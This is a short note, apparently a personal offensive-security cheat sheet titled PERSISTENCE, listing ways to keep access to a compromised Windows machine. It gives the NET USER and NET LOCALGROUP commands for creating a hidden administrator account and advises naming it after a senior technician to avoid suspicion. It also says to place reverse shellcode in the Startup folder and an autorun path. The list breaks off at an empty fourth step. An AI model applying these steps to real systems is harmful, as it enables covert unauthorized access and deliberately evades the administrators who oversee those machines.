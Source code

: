 ```yaml
---
title: PERSISTENCE
updated: 2023-11-03 08:50:41Z
created: 2023-11-03 08:42:49Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


1. **Add users** , Add user to **Administrators** group. Try to use names of a senioer technician or manager to reduce suspicion.
`NET USER <username> <password> /ADD`
`NET LOCALGROUP Administrators <username> /ADD`
2. Add reverse shellcode to the **Windows Startup folder**
3. PersistAutoun , add **shellcode.exe** file to **c:\Users\Public\autorun.exe**
4. 
